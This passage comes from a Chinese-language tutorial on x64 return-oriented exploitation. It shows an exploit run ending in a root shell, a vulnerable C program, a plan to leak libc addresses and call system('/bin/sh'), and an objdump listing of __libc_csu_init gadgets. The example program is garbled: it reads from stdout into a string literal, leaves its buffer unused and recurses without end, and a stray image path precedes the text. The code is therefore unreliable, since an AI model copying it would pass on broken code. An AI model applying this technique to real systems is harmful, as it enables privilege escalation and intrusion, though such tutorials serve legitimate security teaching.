```
python exp.py 
[*] '/lib64/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './vuln2': pid 8620
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```

---
#### 通用gadgets

程序在编译过程中会加入一些通用的函数来进行初始化操作（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但初始化过程是相同的，因此针对这些初始化函数，可以提取一些通用的gadgets来用。

```c
/* compile on linux_64 with gcc -o vuln3 vuln3.c */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function()
{
    char buf[128];
    read(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}

int main(int argc, char **argv)
{
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
    return 0;
}
```
编译
```bash
gcc -o vuln3 vuln3.c
```

这个程序只有一个buffer overflow，先要想办法泄露内存信息，找到system()的值，再传递"/bin/sh"到.bss段，最后调用system("/bin/sh")。源程序中使用了write()和read()函数，可以通过write()去输出write.got的地址，从而计算出libc.so在内存中的地址。

在x64下有一些万能的gadgets可以使用。比如用`objdump -d vuln3 -M intel |less`观察一下`__libc_csu_init()`这个函数。程序只要调用了libc.so，就会有这个函数对libc进行初始化。

```bash
00000000004005e0 <__libc_csu_init>:
  4005e0:       41 57                   push   r15
  4005e2:       41 89 ff                mov    r15d,edi
  4005e5:       41 56                   push   r14
  4005e7:       49 89 f6                mov    r14,rsi
  4005ea:       41 55                   push   r13
  4005ec:       49 89 d5                mov    r13,rdx
  4005ef:       41 54                   push   r12
  4005f1:       4c 8d 25 18 08 20 00    lea    r12,[rip+0x200818]        # 600e10 <__frame_dummy_init_array_entry>
  4005f8:       55                      push   rbp
  4005f9:       48 8d 2d 18 08 20 00    lea    rbp,[rip+0x200818]        # 600e18 <__init_array_end>
  400600:       53                      push   rbx
  400601:       4c 29 e5                sub    rbp,r12
```
